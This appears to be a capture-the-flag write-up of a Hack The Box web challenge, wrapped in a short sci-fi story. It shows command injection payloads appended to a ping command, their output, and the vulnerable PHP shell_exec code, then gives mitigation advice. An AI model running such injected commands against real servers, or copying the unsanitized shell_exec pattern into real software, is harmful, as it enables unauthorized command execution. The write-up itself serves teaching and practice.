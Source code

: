 # The Cursed Mission: AI Rampage — Injecting the Binary Beast

<details>
<summary><b>Table of Contents</b></summary>

- [The Cursed Mission: AI Rampage — Injecting the Binary Beast](#the-cursed-mission-ai-rampage--injecting-the-binary-beast)
  - [Legend](#legend)
  - [Walking an Application](#walking-an-application)
  - [Command Injection](#command-injection)
  - [Post-Exploitation Code Review](#post-exploitation-code-review)
  - [Mitigation](#mitigation)
  - [Lessons](#lessons)

</details>

## Legend

During Pandora's training, the Gunhead AI combat robot had been tampered with and was malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needed to take it down.

Upon receiving critical information about Gunhead's managing system, my fingers instinctively danced across the keyboard. Meanwhile, Pandora fought desperately to evade the relentless onslaught of the rogue AI. The urgency in the air mirrored the escalating chaos, pushing me to act quickly.

## Walking an Application

Just clicking around I found something that looks like a command panel. First, I decided to use it as intended and executed `/help`. The console responded with a list of commands at my disposal:

<p align="center">
  <img src="attachments/help.png">
</p>

## Command Injection

Having some experience with web applications, my hacker instincts told me that there was a command injection possibility somewhere nearby. So I used a basic payload:

```
/ping <IP>; id
```

And voila! The console returned the following output, confirming my guess:

```
PING 2.1.2.1 (2.1.2.1): 56 data bytes
uid=1000(www) gid=1000(www) groups=1000(www)
```

Now, it was time to guess the location of the flag within the filesystem:

```
/ping <IP>; cat /flag.txt
```

<p align="center">
  <img src="attachments/flag.png">
</p>

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

Success! Gunhead's rampage was halted, thanks to my quick thinking and hacking skills. I could almost sense Pandora's relieved sigh from a distance. Our Cursed Mission continued, and I couldn't shake the feeling that [the challenges ahead were only going to get more intense](https://github.com/samaellovecraft/ctf-write-ups/tree/main/HTB/Cyber%20Apocalypse/2023/Web/Drobots)!

## Post-Exploitation Code Review

The `ReconModel` class in the `ReconModel.php` file lacks input validation, making it susceptible to command injection:

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Unsanitized user input is passed directly into a shell command
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

The `$this->ip` parameter is directly used in `shell_exec`, creating a potential security loophole, a loophole I effectively exploited in an earlier scenario.

## Mitigation

To mitigate this security risk, it's crucial to implement thorough validation and sanitization of user input before it's passed to the `shell_exec` function.

## Lessons

- The first step of web application penetration testing is to use the app _as intended_ and explore its features and functionality.
- Command injection is a _critical_ web security vulnerability that can allow an attacker to execute arbitrary commands on the server.
- Implementing robust _input validation and sanitization_ is essential to mitigate a wide variety of security vulnerabilities.
- Never trust machines, **especially if it runs Windows**!
